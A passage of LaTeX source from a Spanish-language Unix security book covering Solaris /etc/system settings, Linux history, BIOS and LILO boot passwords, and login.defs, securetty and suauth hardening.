set nfs:nfs_portmon = 1
\end{verbatim}
\end{quote}
mientras que en Solaris 2.5 y posteriores utilizaremos
\begin{quote}
\begin{verbatim}
set nfssrv:nfs_portmon = 1
\end{verbatim}
\end{quote}
Por \'ultimo, como ya comentamos en el punto dedicado a la seguridad {\sc 
eeprom}, podemos
deshabilitar el acceso que se consigue a la misma al pulsar la combinaci\'on
de teclas {\it `Stop--A'} en un teclado Sun; para ello es necesario a\~nadir
en el fichero {\tt /etc/system} una entrada como
\begin{quote}
\begin{verbatim}
set abort_enable=0
\end{verbatim}
\end{quote}
Antes de finalizar este punto, es necesario tener en
cuenta que los cambios que se realicen en {\tt /etc/system} no tendr\'an efecto
hasta que la m\'aquina se reinicie, y que un peque\~no error en los contenidos
de este archivo puede provocar que un sistema no arranque, por lo que es
siempre recomendable guardar una copia antes de realizar cualquier
modificaci\'on del fichero.

\cleardoublepage
\chapter{Linux}
\section{Introducci\'on}
A mediados de 1991 un estudiante finland\'es llamado Linus Torvalds trabajaba
en el dise\~no de un sistema operativo similar a Minix, que pudiera ejecutarse 
sobre plataformas Intel y compatibles, y sobre todo que fuera peque\~no y 
barato; a ra\'{\i}z de un mensaje de este estudiante en {\tt comp.os.minix}, 
algunas personas comenzaron a interesarse por el proyecto, y finalmente el 5 de 
octubre de ese a\~no Linus Torvals hizo p\'ublica la versi\'on 0.02 -- la 
primera funcional -- de lo que ya se denominaba Linux ({\it Linus\'{} Unix}). En
esa versi\'on, que aproximadamente utilizaron un centenar de usuarios, apenas
se ofrec\'{\i}a soporte a {\it hardware} (excepto el que Linus ten\'{\i}a en
su ordenador), no dispon\'{\i}a de subsistema de red ni de sistema de ficheros
propio, y las utilidades de espacio de usuario se pod\'{\i}an contar con 
los dedos de las manos (un {\it shell}, un compilador, y poco m\'as). Sin 
embargo, y a pesar de las duras cr\'{\i}ticas de pesos pesados en el mundo de 
los sistemas operativos como Andrew Tanenbaum, el proyecto era muy interesante, 
y poco a poco programadores de todo el mundo fueron aportando mejoras a este 
nuevo sistema.\\
\\A principios de 1994 apareci\'o Linux 1.0, considerada la primera versi\'on
del operativo utilizable no s\'olo por {\it hackers} y programadores, sino por
usuarios `normales'; de las aproximadamente 10000 l\'{\i}neas de la versi\'on
inicial se hab\'{\i}a pasado a unas 170000, y el centenar de usuarios se 
hab\'{\i}a multiplicado por mil. Linux 1.0 incorporaba subsistema de red (sin
duda uno de los cambios que m\'as ha contribuido a la expansi\'on del 
operativo), entorno gr\'afico (arrastrado de versiones anteriores) y soporte a
una gama de {\it hardware} relativamente amplia. La popularidad del operativo
crec\'{\i}a mes a mes -- especialmente en entornos universitarios y de 
investigaci\'on -- gracias sobre todo a su filosof\'{\i}a: cualquiera 
pod\'{\i}a (y puede) modificar una parte del n\'ucleo, adaptarla, mejorarla, o
incorporar nuevas l\'{\i}neas, con la \'unica obligaci\'on de compartir el nuevo
c\'odigo fuente con el resto del mundo.\\
\\Sin embargo, no fu\'e hasta 1996, con la aparici\'on de Linux 2.0 (que 
incorporaba casi medio mill\'on de l\'{\i}neas de c\'odigo), cuando se produjo
el gran {\it boom} de Linux que perdura hasta la actualidad. Esta nueva 
versi\'on convert\'{\i}a a Linux en un sistema libre que, en algunos aspectos, 
no ten\'{\i}a nada que envidiar a entornos Unix comerciales; m\'as de un 
mill\'on de usuarios contribu\'{\i}an sin descanso a mejorar el sistema, y 
quiz\'as por primera vez la arquitectura PC no era un mercado reservado casi en
exclusiva a Microsoft. Muchas personas vieron que Linux pod\'{\i}a llegar a ser 
rentable (a pesar de su filosof\'{\i}a {\it free}), y se comenz\'o a trabajar 
mucho en la facilidad de instalaci\'on y manejo para usuarios sin elevados 
conocimientos de inform\'atica; incluso llegaba a desbancar en muchas ocasiones
al inamovible Minix a la hora de estudiar dise\~no de sistemas operativos en las
universidades (algo poco comprensible, por otra parte, ya que cualquiera que 
le haya pegado un vistazo al c\'odigo del {\it kernel} de Linux podr\'a 
comprobar que a diferencia de Minix no est\'a dise\~nado para ser legible y
did\'actico, sino para ser r\'apido).\\
\\En la actualidad Linux cuenta con varios millones de usuarios, y se ha 
convertido en el Unix m\'as {\it user--friendly} de todos los existentes, ya que
no hacen falta conocimientos avanzados para instalarlo y manejarlo 
m\'{\i}nimamente; reconoce multitud de {\it hardware} (algo que siempre ayuda
en el mercado de los ordenadores de sobremesa), y se puede utilizar para 
funciones tan diversas como servidores {\it web}, de bases de datos, de correo
electr\'onico, o como una sencilla {\it workstation}. En muchas empresas 
medianas y peque\~nas ha desplazado por completo a los sistemas Unix 
comerciales (caros y que generalmente corren sobre {\it hardware} que tampoco 
es barato), e incluso en grandes servidores se utiliza Linux como sistema 
operativo; aunque -- y esto es una cr\'{\i}tica, por si no queda claro -- en
algunas ocasiones se echan de menos mecanismos de seguridad que s\'{\i} est\'an
disponibles en otros Unices, podemos decir que Linux proporciona un nivel de
seguridad, fiabilidad y estabilidad adecuado a la mayor parte de aplicaciones
gen\'ericas que nos podamos imaginar (es decir, no es un operativo apto para
controlar una central nuclear, pero s\'{\i} para cualquier aplicaci\'on de
criticidad baja o media que podamos utilizar d\'{\i}a a d\'{\i}a).\\
\\Al igual que hemos hecho en el cap\'{\i}tulo anterior con Solaris, vamos a
hablar en este de aspectos de seguridad espec\'{\i}ficos de Linux, aunque como
siempre lo que hemos comentado para Unix en general es casi siempre aplicable a
este clon. Sobre temas propios de Linux podemos obtener informaci\'on adicional 
y gratuita a trav\'es de Internet, en cualquier documento del proyecto LDP 
({\it Linux Documentation Project}); tambi\'en existen numerosos libros sobre
aspectos espec\'{\i}ficos de este operativo, desde la implementaci\'on de su
n\'ucleo (\cite{kn:bec96}, \cite{kn:car97}\ldots) hasta su seguridad 
(\cite{kn:tox00}, \cite{kn:ano01}\ldots), pasando por supuesto por temas de 
administraci\'on gen\'erica (\cite{kn:ha99}, \cite{kn:bal00}\ldots).
\section{Seguridad f\'{\i}sica en x86}
Si cuando hemos hablado de Solaris hac\'{\i}amos referencia al nivel de
seguridad m\'as bajo que ofrece una m\'aquina {\sc sparc}, el correspondiente a
su {\sc eeprom}, parece obligatorio comentar, en el cap\'{\i}tulo dedicado a
Linux, de la seguridad de m\'as bajo nivel que ofrece este operativo 
ejecut\'andose sobre su principal plataforma: el PC.\\
\\Cuando arranca un ordenador personal se ejecuta un {\it software} denominado 
{\sc bios} ({\it Basic I/O System}) cuya funci\'on principal es determinar una 
serie de par\'ametros de la m\'aquina y proporcionar un sistema b\'asico de 
control de dispositivos, como el teclado o los puertos de comunicaciones; este
{\it software} se aloja t\'{\i}picamente en una memoria {\sc rom} ({\it 
Read--Only Memory}) o {\it flash} (estos \'ultimos permiten actualizar la 
versi\'on de la {\sc bios} sin necesidad de cambiar el {\it chip} 
correspondiente), de forma que se permita autoarrancar a la m\'aquina aunque 
el subsistema de almacenamiento tenga problemas y no se pueda iniciar el 
operativo. En el arranque de un PC se puede acceder a la configuraci\'on de
su {\sc bios} mediante la pulsaci\'on de una tecla o una secuencia de escape 
dependiente de cada modelo de {\it chip}; desde ese entorno de configuraci\'on 
se pueden asignar par\'ametros como la fecha y hora del sistema, la 
arquitectura de los discos duros, o la habilitaci\'on de memorias cach\'e. Por 
supuesto, la {\sc bios} de un PC es completamente independiente del operativo 
que se arranque despu\'es; esto implica que cuando a continuaci\'on comentemos 
la protecci\'on que ofrece una {\sc bios}, lo que digamos ser\'a aplicable {\bf 
sin importar qu\'e operativo se ejecute} en la m\'aquina: servir\'a tanto para 
Linux como para Solaris, FreeBSD, NetBSD\ldots e incluso para las diferentes 
versiones de Windows. Si lo comentamos en este cap\'{\i}tulo dedicado a Linux
y no en otro, es \'unicamente porque la mayor parte de plataformas sobre las
que se ejecuta este operativo son ordenadores personales.\\
\\Generalmente la mayor parte de las {\sc bios} ofrecen la posibilidad de 
establecer dos contrase\~nas independientes. La primera de ellas es una clave
que evita a usuarios que no la conozcan acceder a la configuraci\'on de la {\sc
bios}, ya que se solicitar\'a al pulsar la secuencia de escape de la que hemos 
hablado antes para entrar en el entorno de configuraci\'on durante el arranque
de una m\'aquina. El esquema de esta contrase\~na en muchas ocasiones no es 
todo lo robusto que debiera, y en funci\'on del modelo y versi\'on de cada
{\it chip} de memoria -- especialmente en los m\'as antiguos -- es posible que 
incluso se pueda romper ejecutando un simple programa desde l\'{\i}nea de 
\'ordenes; a pesar de ello, puede ser \'util en entornos de muy baja seguridad
para prevenir que cualquiera se dedique a cambiar la configuraci\'on de la {\sc 
bios}, pero m\'as por comodidad (el administrador de la m\'aquina deber\'{\i}a
restaurar dicha configuraci\'on de nuevo, algo bastante molesto sobre todo si
el n\'umero de ordenadores es elevado, como en un laboratorio o un aula) que
por seguridad.\\
\\La segunda de estas claves ofrece un nivel de protecci\'on algo m\'as elevado;
se trata de una contrase\~na que evita el arranque del PC sin que se teclee el
{\it password} (en local, por supuesto, recordemos que el operativo a\'un no se
ha inicializado). Con ella se consigue que nadie que no conozca la clave pueda
arrancar un ordenador, pero una vez arrancado no sirve para nada m\'as; puede
ser \'util para evitar que usuarios no autorizados puedan sentarse delante de
una m\'aquina y arrancar desde un {\it diskette}, aunque seguramente una
soluci\'on menos agresiva es configurar la {\sc bios} para que s\'olo arranque
desde disco duro, o al menos no trate de hacerlo desde {\it floppy} antes que
desde el disco primario. No obstante, poner una contrase\~na para arrancar el
sistema, como muchas medidas de seguridad, puede tener efectos negativos en la 
funcionalidad o en la comodidad de administraci\'on: no podremos realizar 
{\it reboots} autom\'aticos ni remotos de Unix, ya que cada vez que el sistema 
reinicie alguien deber\'a estar f\'{\i}sicamente al lado de la m\'aquina para 
teclear la clave correspondiente.\\
\\Antes de finalizar este punto dedicado a la seguridad f\'{\i}sica dentro de
Linux debemos hablar de la protecci\'on ofrecida por {\sc lilo}; ahora ya no
se trata de algo gen\'erico de los PCs, sino de mecanismos implantados en el
cargador de Linux que s\'olo son aplicables a sistemas arrancados desde dicho 
cargador. {\sc lilo} ({\it LInux LOader}) es un {\it software} que se instala
en un sector de arranque -- de una partici\'on o de un {\it diskette} -- o en 
el {\it Master Boot Record} ({\sc mbr}) del disco duro y que permite de esta
forma arrancar tanto Linux como otros sistemas operativos instalados en el PC.\\
\\{\sc lilo} toma su configuraci\'on del archivo {\tt /etc/lilo.conf} del 
sistema Linux; cada vez que modifiquemos ese archivo ser\'a necesario ejecutar
la orden {\tt /sbin/lilo} si queremos que los cambios tengan efecto en el
siguiente encendido de la m\'aquina:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/lilo
Added linux *
luisa:~# 
\end{verbatim}
\end{quote}
Al arrancar el PC, {\sc lilo} permite elegir una imagen para ser arrancada, 
as\'{\i} como especificar pa\-r\'a\-me\-tros para el n\'ucleo; aunque esto sea
necesario para inicializar el sistema en ciertas ocasiones -- principalmente
cuando hay errores graves en un arranque normal --, el hecho es que los 
par\'ametros pasados a un {\it kernel} antes de ser arrancado pueden facilitar
a un atacante un control total sobre la m\'aquina, ya que algunos de ellos
llegan incluso a ejecutar un {\it shell} con privilegios de {\tt root} sin 
necesidad de ninguna contrase\~na.\\
\\En determinadas ocasiones, quiz\'as nos interese proteger el arranque de una
m\'aquina, tanto a nivel de la elecci\'on de n\'ucleo a arrancar como a nivel
de las opciones que se pasan a dicho n\'ucleo. Podemos habilitar desde {\sc
lilo} el uso de una contrase\~na que se solicitar\'a antes de que {\sc lilo} 
cargue cualquier sistema operativo instalado en el ordenador; para ello debemos
hacer uso de la directiva {\tt `password'} en {\tt /etc/lilo.conf}:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/lilo.conf
boot = /dev/hda
delay = 50
vga = normal
password = P,e+bqa
image = /vmlinuz
  root = /dev/hda1
  label = linux
  read-only 
luisa:~#
\end{verbatim}
\end{quote}
Tras ejecutar {\tt /sbin/lilo}, en el siguiente arranque de la m\'aquina se
solicitar\'a la contrase\~na especificada antes de arrancar cualquier sistema
operativo; es importante que {\tt /etc/lilo.conf} tenga un permiso de lectura
s\'olo para el {\tt root}, ya que como podemos ver contiene contrase\~nas sin
cifrar.\\
\\Evidentemente, si elegimos este tipo de protecci\'on nos podemos olvidar de
cualquier cosa que implique un reinicio autom\'atico del ordenador, ya que
como acabamos de decir {\bf siempre} se solicitar\'a una clave en el arranque;
podemos relajar esta restricci\'on de una forma muy \'util: forzando el uso de 
un {\it password} {\bf s\'olo} si se especifican par\'ametros adicionales para 
el n\'ucleo que se quiere arrancar. Esto permite un equilibrio m\'as que 
razonable entre seguridad y usabilidad, ya que cualquiera -- con los 
privilegios necesarios -- puede reiniciar el sistema, e incluso se pueden 
programar rearranques autom\'aticos, pero siempre ser\'a necesaria una clave si 
alguien desea especificar par\'ametros adicionales al {\it kernel}.\\
\\Para conseguir esto utilizaremos la directiva {\tt `restricted'} en
conjunci\'on con {\tt `password'} en el archivo de configuraci\'on de {\sc 
lilo}; bas\'andonos en el ejemplo anterior, el contenido del nuevo fichero 
ser\'{\i}a el siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/lilo.conf
boot = /dev/hda
delay = 50
vga = normal
password = P,e+bqa
restricted
image = /vmlinuz
  root = /dev/hda1
  label = linux
  read-only
luisa:~#
\end{verbatim}
\end{quote}
Los dos par\'ametros que acabamos de ver ({\tt `password'} y {\tt `restricted'}
se pueden utilizar y combinar bien en la configuraci\'on general de {\sc lilo}
-- como lo hemos visto aqu\'{\i} -- o bien en la configuraci\'on particular de 
cada uno de los sistemas operativos a arrancar; si queremos esto \'ultimo no
tenemos m\'as que incluir las directivas dentro de la configuraci\'on de las
entradas {\tt `image'} (im\'agenes del {\it kernel} de Linux) u {\tt `other'} 
(arranque de otros sistemas operativos) en lugar de hacerlo antes de estas
entradas:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/lilo.conf
boot = /dev/hda
delay = 50
vga = normal
image = /vmlinuz
  root = /dev/hda1
  label = linux
  read-only
  password = 66n4k
  restricted
luisa:~#
\end{verbatim}
\end{quote}
De esta forma podemos particularizar claves para cada sistema o n\'ucleo, 
definir entradas en las que se necesitar\'a la clave s\'olo si pasamos 
par\'ametros en el arranque, entradas en las que se necesitar\'a siempre, 
entradas en las que no se necesitar\'a nunca, etc.\\
\\Para finalizar este punto, es necesario recordar una vez m\'as que una 
correcta configuraci\'on del arranque en la {\sc bios} es imprescindible para
garantizar la seguridad f\'{\i}sica de la m\'aquina; sin ir m\'as lejos, si un
pirata consigue arrancar el ordenador desde un {\it diskette}, poseer\'a un
control total del sistema sin importar las claves que tengamos definidas en
{\tt /etc/lilo.conf}.
\section{Usuarios y accesos al sistema}
En un sistema Linux es posible controlar ciertos par\'ametros referentes al
acceso de los usuarios a trav\'es de {\it telnet} o {\it r-$\ast$} mediante
el fichero {\tt /etc/login.defs}; sus directivas no afectan directamente --
aunque algunas de ellas s\'{\i} de una forma indirecta -- a las conexiones a 
trav\'es de otros mecanismos como {\sc ssh}, que poseen sus propios ficheros de
configuraci\'on. Como siempre, insistimos en la necesidad de sustituir
todos los protocolos en claro por equivalentes cifrados, con lo que ni {\it
telnet} ni {\it r-$\ast$} deber\'{\i}an existir como servicio en una m\'aquina
Unix, pero de cualquier forma vamos a comentar algunas directivas del fichero
anterior que pueden resultar interesantes para nuestra seguridad, tanto si
afectan a las conexiones remotas como si no; para obtener informaci\'on acerca
del resto de directivas -- y tambi\'en de las comentadas aqu\'{\i} -- podemos
consultar la p\'agina del manual de {\tt login.defs(5)}.\\
\\La primera de las directivas que encontramos en {\tt /etc/login.defs} es
{\sc fail$\_$delay}, que marca el n\'umero de segundos (por defecto, 3) que el 
sistema introduce como retardo desde que se introduce un nombre de usuario o 
contrase\~na incorrectos hasta que se vuelve a solicitar el {\it login} de 
entrada al sistema; el n\'umero m\'aximo de intentos antes de que se cierre
la conexi\'on viene determinado por el valor de {\sc login$\_$retries}, por
defecto a 5, y el tiempo m\'aximo durante el que se permite la entrada antes
de cerrar la conexi\'on se especifica mediante la directiva {\sc 
login$\_$timeout} (60 segundos por defecto).\\
\\Cuando un usuario se equivoca en su nombre de entrada o su clave entran en 
juego un par de directivas
m\'as: {\sc faillog$\_$enab} y {\sc log$\_$unkfail$\_$enab}. La primera de 
ellas, con un valor por defecto a {\tt `yes'} (el adecuado para nuestra 
seguridad), se encarga de registrar los intentos fallidos de acceso al sistema
en {\tt /var/log/faillog}, as\'{\i} como de mostrar un mensaje con 
informaci\'on acerca del \'ultimo intento de acceso fallido cuando un usuario 
accede a la m\'aquina. Por su parte, {\sc log$\_$unkfail$\_$enab} habilita o
deshabilita el registro del nombre de usuario que ha fallado al tratar de
entrar al sistema; es importante que su valor sea {\tt `no'} (es decir, que 
ese nombre de usuario no se registre) por una sencilla raz\'on: en muchas
ocasiones los usuarios teclean su {\it password} en lugar de su {\it login} 
cuando tratan de acceder a la m\'aquina, con lo que si el nombre de usuario
incorrecto -- la clave -- se registra en un fichero en texto plano, y ese 
fichero tiene unos permisos inadecuados, cualquiera con acceso de lectura sobre
el archivo de {\it log} podr\'{\i}a deducir f\'acilmente el nombre y la clave 
del usuario. Adicionalmente, si la directiva {\sc ftmp$\_$file} define un
archivo (por defecto, {\tt /var/log/btmp}), en el mismo se registra cada 
intento de acceso fallido en formato {\tt utmp(5)}; dicha informaci\'on se 
puede consultar mediante la orden {\tt lastb}.\\
\\Si se produce la situaci\'on contraria a la que acabamos de comentar (es
decir, el usuario teclea correctamente tanto su nombre como su contrase\~na),
la directiva {\sc log$\_$ok$\_$logins} habilita o deshabilita el registro de 
este hecho en funci\'on de si su valor es {\tt `yes'} o {\tt `no'}; adem\'as,
si {\sc lastlog$\_$enab} tiene un valor {\tt `yes'} se registra la entrada en
{\tt /var/log/lastlog} y se muestra al usuario informaci\'on acerca de su 
\'ultima conexi\'on. En caso de que el usuario no pueda acceder a su directorio 
{\it \$HOME} (bien porque no existe, bien por los permisos del mismo) entra en
juego {\sc default$\_$home}, y en caso de que su valor sea {\tt `no'} no se
permite el acceso; por el contrario, si su valor es {\tt `yes'}, el usuario 
entra al directorio raiz de la m\'aquina.\\
\\En {\tt /etc/login.defs} tambi\'en se pueden definir l\'{\i}neas para las que
no es necesaria ninguna contrase\~na, mediante la directiva {\sc 
no$\_$password$\_$console}: si alguien trata de conectar al sistema
a trav\'es de ellas, se le solicitar\'a su nombre de usuario pero no su clave;
esto es aplicable para todos los usuarios de la m\'aquina {\bf excepto} para
el administrador, al que siempre se le pide su {\it password}. Evidentemente,
para incrementar la seguridad de nuestro sistema la directiva correspondiente 
ha de estar comentada.\\
\\El acceso a la cuenta del superusuario tambi\'en viene determinado por 
ciertas directivas del archivo {\tt /etc/login.defs}. En primer lugar, s\'olo
se permiten accesos directos como {\tt root} desde las l\'{\i}neas definidas
en la entrada {\sc console}, que puede ser bien un archivo que contiene los
nombres de dispositivos desde los que permitimos la entrada del administrador, o
bien una relaci\'on de esos dispositivos separados por el car\'acter {\tt `:'}; 
por defecto, en un sistema Linux esta entrada referencia al archivo {\tt 
/etc/securetty}, que es un listado de terminales de la forma siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/securetty
console
tty1
tty2
tty3
tty4
tty5
tty6
luisa:~#
\end{verbatim}
\end{quote}
Como hemos dicho, la funci\'on del anterior archivo es muy similar a la de la 
directiva {\sc `console'} en el fichero {\tt /etc/default/login} de Solaris; 
si no existe, el administrador puede conectar en remoto desde cualquier lugar, 
mientras que si existe pero est\'a vac\'{\i}o s\'olo se pueden alcanzar 
privilegios de {\tt root} a trav\'es de la ejecuci\'on de {\tt `su'}. En 
cualquier caso, el fichero no evita ni controla las conexiones remotas como 
superusuario a trav\'es de mecanismos como {\sc ssh} o {\it X Window}, que 
poseen sus propios ficheros de configuraci\'on.\\
\\El contenido o la existencia de {\tt /etc/securetty} tampoco evita de ninguna
forma la ejecuci\'on de {\tt `su'}; para ello existen otras directivas que 
controlan el acceso y el comportamiento de esta orden en el sistema. La primera
de ellas es {\sc su$\_$wheel$\_$only}, que si posee un valor {\tt `yes'} 
indica que s\'olo los usuarios miembros del grupo {\tt 
`root'}\footnote{Realmente, del primer grupo con {\sc gid} 0 en {\tt 
/etc/group}, que corresponde al grupo {\tt `root'} en la mayor\'{\i}a de
sistemas Linux.} van a ser capaces de cambiar su identidad mediante {\tt `su'} 
a un usuario con privilegios de administrador ({\sc uid} 0); si este grupo no 
existe o est\'a vacio, nadie podr\'a ejecutar {\tt `su'} para convertirse en 
superusuario.\\
\\En el archivo {\tt /etc/suauth} (completamente independiente de {\tt 
/etc/login.defs}) se puede realizar un control m\'as minucioso de la ejecuci\'on
de {\tt `su'}, no s\'olo para acceder a cuentas con privilegios de 
administraci\'on, sino tambi\'en para permitir o denegar cambios de identidad
entre dos usuarios cualesquiera del sistema. Se trata de un fichero en el que
cada l\'{\i}nea es de la forma
\begin{verbatim}
                             to-id:from-id:ACCION
\end{verbatim}
donde {\tt ACCION} puede ser {\sc deny} (se deniega el cambio de identidad),
{\sc nopass} (se permite el cambio sin necesidad de ninguna clave) u {\sc 
ownpass} (se solicita el {\it password} del usuario que ejecuta la orden en 
lugar del correspondiente al usuario al que se quiere acceder); se puede 
consultar la p\'agina del manual {\tt suauth(5)} para conocer la sintaxis 
exacta del archivo. Por ejemplo,
si queremos que el usuario {\tt `toni'} no pueda ejecutar {\tt `su'} para 
cambiar su identidad a {\tt `root'}, pero que para convertirse en {\tt
`prova'} s\'olo tenga que teclear su propia contrase\~na, tendremos un fichero
similar al siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/suauth 
root:toni:DENY
prova:toni:OWNPASS
luisa:~# 
\end{verbatim}
\end{quote}
Cuando {\tt toni} trate de hacer {\tt `su'} a las cuentas anteriores, ver\'a
algo similar a:
\begin{quote}
\begin{verbatim}
luisa:~$ id
uid=1000(toni) gid=100(users) groups=100(users)
luisa:~$ su 
Access to su to that account DENIED.
You are not authorized to su root
luisa:~$ luisa:~$ su prova
Please enter your OWN password as authentication.
(Enter your own password.)
Password: 
luisa:/home/toni$ id
uid=1006(prova) gid=100(users) groups=100(users)
luisa:/home/toni$
\end{verbatim}
\end{quote}
Es importante destacar que el contenido del fichero {\tt /etc/suauth} {\bf 
s\'olo} afecta a usuarios regulares, no al {\tt root}: no podemos definir 
reglas que eviten que el administrador de un sistema cambie su identidad a 
cualquier usuario del mismo. Esto es algo evidente, ya que si no se permitiera 
al {\tt root} cambiar su identidad, este no tendr\'{\i}a m\'as que modificar el
fichero para eliminar la regla que se lo impide.\\
\\Volviendo a {\tt /etc/login.defs}, el registro de las ejecuciones de {\tt 
`su'} tambi\'en se controla desde este fichero; la directiva {\sc 
sulog$\_$file} define el archivo donde
se registran las ejecuciones de esta orden, tanto si son exitosas como si no.
Adem\'as, si el valor de {\sc syslog$\_$su$\_$enab} es {\tt `yes'} se guarda
un registro adicional a trav\'es de {\tt syslogd} en el archivo 
correspondiente; existe una directiva an\'aloga a esta \'ultima denominada {\sc 
syslog$\_$sg$\_$enab}, que registra tambi\'en a trav\'es de {\tt syslogd} los 
cambios de grupo que se producen en el sistema (por ejemplo, mediante la 
ejecuci\'on de la orden {\tt newgrp}).\\
\\Antes de dejar de lado los aspectos relacionados con {\tt `su'} vamos a 
comentar una directiva muy interesante: se trata de {\sc su$\_$name}, que 
define el nombre de programa que un {\tt `ps'} muestra cuando alguien ejecuta 
la orden {\tt `su -'} (un cambio de identidad emulando un proceso de {\it 
login} directo) en el sistema. Su valor por defecto es {\tt `su'}, lo que
indica que si alguien cambia su identidad de la forma que acabamos de ver, un
listado de procesos mostrar\'a algo similar a lo siguiente:
\begin{quote}
\begin{verbatim}
luisa:~$ su - prova
Password: 

Famous, adj.:
        Conspicuously miserable.
                -- Ambrose Bierce

luisa:~$ ps xuw
prova    19990  0.8  0.3  1708  984 pts/8    S    07:04   0:00 -su
prova    20001  0.0  0.2  2548  908 pts/8    R    07:04   0:00 ps xuw
luisa:~$ 
\end{verbatim}
\end{quote}
Como vemos, en lugar del {\it shell} que el usuario est\'e utilizando, aparece
el nombre de programa {\tt `-su'} en la \'ultima columna del listado; si la
directiva no estuviera definida s\'{\i} que aparecer\'{\i}a el nombre del {\it 
shell} correspondiente. Puede resultar interesante redefinir la directiva {\sc 
su$\_$name} para asignarle un valor que pueda resaltar m\'as en el listado, de
forma que el administrador pueda ver quien ha ejecutado la orden {\tt `su -'}
de una forma m\'as directa:
\begin{quote}
\begin{verbatim}
luisa:~# grep ^SU_NAME /etc/login.defs 
SU_NAME         ***SU***
luisa:~# su - prova

f u cn rd ths, u cn gt a gd jb n cmptr prgrmmng.

luisa:~$ ps xuw
USER       PID %CPU %MEM   VSZ  RSS TTY      STAT START   TIME COMMAND
prova    20083  7.0  0.3  1712  988 pts/8    S    07:11   0:00 -***SU***
prova    20094  0.0  0.2  2548  912 pts/8    R    07:11   0:00 ps xuw
luisa:~$ 
\end{verbatim}
\end{quote}
A la hora de definir nuevos usuarios en el sistema tambi\'en entran en juego
ciertas directivas del archivo {\tt /etc/login.defs}. Por ejemplo, el {\sc uid}
y {\sc gid} m\'aximo y m\'{\i}nimo para los usuarios regulares viene determinado
por {\sc uid$\_$max}, {\sc gid$\_$max}, {\sc uid$\_$min} y {\sc gid$\_$min}.
Tambi\'en existen entradas para especificar ciertas caracter\'{\i}sticas 
relacionadas con las claves de los nuevos usuarios del sistema: se trata de {\sc
pass$\_$max$\_$days}, {\sc pass$\_$min$\_$days}, {\sc pass$\_$min$\_$len} y {\sc
pass$\_$warn$\_$age}. Como sus nombres indican, estas directivas marcan los
n\'umeros m\'aximo y m\'{\i}nimo de d\'{\i}as que una contrase\~na puede ser 
usada, la longitud m\'{\i}nima que todo {\it password} ha de tener, y el 
n\'umero de d\'{\i}as de antelaci\'on con que se avisar\'a a los usuarios antes 
de que sus claves caduquen, respectivamente. Cada vez que se crea a un usuario
nuevo en el sistema, se toman estos valores por defecto, aunque despu\'es es
habitual particularizar para cada caso concreto.\\
\\Cuando un usuario ejecuta la orden {\tt passwd} para cambiar su contrase\~na
en el sistema entra en juego la directiva {\sc obscure$\_$checks$\_$enab} 
(cuyo valor ha de ser {\tt `yes'}) para impedir que se elijan claves d\'ebiles
(por ejemplo, las formadas \'unicamente por letras min\'usculas); 
adicionalmente, si la orden est\'a enlazada a {\tt cracklib} (esto se realiza
en tiempo de compilaci\'on) y la directiva {\sc cracklib$\_$dictpath} est\'a
definida y tiene como valor la ruta de un directorio, se buscan en el mismo
ficheros de diccionario contra los que comparar la nueva contrase\~na, 
rechaz\'andola si se encuentra en alguno de ellos. En cualquier caso, se 
permiten tantos intentos de cambio como indica {\sc pass$\_$change$\_$tries}, y
si se supera este n\'umero se devuelve al usuario a su {\it shell} y la clave
permanece inalterada; si el usuario que trata de cambiar el {\it password} es 
el {\tt root} -- tanto la propia clave como la de cualquier usuario -- se le
permite elegir cualquier contrase\~na, sin importar su robustez, pero se le
advierte de que la clave elegida es d\'ebil si el valor de directiva {\sc
pass$\_$always$\_$warn} es {\tt `yes'}.\\
\\Al ejecutar {\tt passwd} para modificar valores del campo {\sc gecos} o para
cambiar el {\it shell} de entrada al sistema (o equivalentemente, al ejecutar
{\tt chfn} o {\tt chsh}) se solicita al usuario su clave si el valor de la 
directiva {\tt chfn$\_$auth} es {\tt `yes'}. Adem\'as, la entrada {\sc 
chfn$\_$restrict} define los campos concretos que un usuario puede modificar: 
{\it Full Name}, {\it Room Number}, {\it Work Phone} y {\it Home Phone} ({\tt 
`frwh'} si permitimos que modifique todos ellos); si la directiva no est\'a
definida, no se permite ning\'un tipo de cambio.\\
\\Relacionada tambi\'en con las contrase\~nas de los usuarios, la directiva {\sc
pass$\_$max$\_$len} marca el n\'umero de caracteres significativos en una clave
(8 por defecto); no obstante, esta entrada es ignorada si el valor de {\sc
md5$\_$crypt$\_$enab} es {\tt `yes'}, lo que indica que el sistema acepta {\it
passwords} basados en {\sc md5}, que proporcionan una longitud para las claves
ilimitada y {\it salts} m\'as largos que el esquema cl\'asico de Unix. La 
\'unica raz\'on para asignarle a esta \'ultima directiva un valor {\tt `no'} en
los Linux modernos es por razones de compatibilidad, ya que la seguridad que
proporciona este tipo de claves es mucho mayor que la proporcionada por los
mecanismos habituales de Unix.\\
\\Dejando ya de lado el archivo {\tt /etc/login.defs}, pero siguiendo con la
gesti\'on de las contrase\~nas de usuario, para consultar el estado de las 
mismas en un sistema Linux 
hemos de ejecutar la orden {\tt `passwd -S'} seguida del nombre del usuario 
correspondiente; por desgracia, en Linux no existe un par\'ametro {\tt `-a'} 
similar al de Solaris, que muestre informaci\'on de todos los usuarios, por lo
que hemos de hacer la consulta uno a uno:
\begin{quote}
\begin{verbatim}
luisa:~# for i in `awk -F: '{print $1}' /etc/passwd`
> do
> passwd -S $i
> done
root P 12/28/2000 0 -1 -1 -1
bin L 10/28/1996 0 -1 -1 -1
daemon L 10/28/1996 0 -1 -1 -1
adm L 10/28/1996 0 -1 -1 -1
lp L 10/28/1996 0 -1 -1 -1
sync L 10/28/1996 0 -1 -1 -1
shutdown L 10/28/1996 0 -1 -1 -1
halt L 10/28/1996 0 -1 -1 -1
mail L 10/28/1996 0 -1 -1 -1
news L 10/28/1996 0 -1 -1 -1
uucp L 10/28/1996 0 -1 -1 -1
operator L 10/28/1996 0 -1 -1 -1
games L 10/28/1996 0 -1 -1 -1
ftp L 10/28/1996 0 -1 -1 -1
gdm L 10/28/1996 0 -1 -1 -1
nobody L 10/28/1996 0 -1 -1 -1
toni P 12/29/2000 0 99999 7 -1
prova NP 10/23/2001 0 99999 7 -1
luisa:~# 
\end{verbatim}
\end{quote}
El segundo campo de cada l\'{\i}nea del listado anterior proporciona el estado 
de la clave correspondiente: {\tt `P'} si el usuario tiene contrase\~na, {\tt 
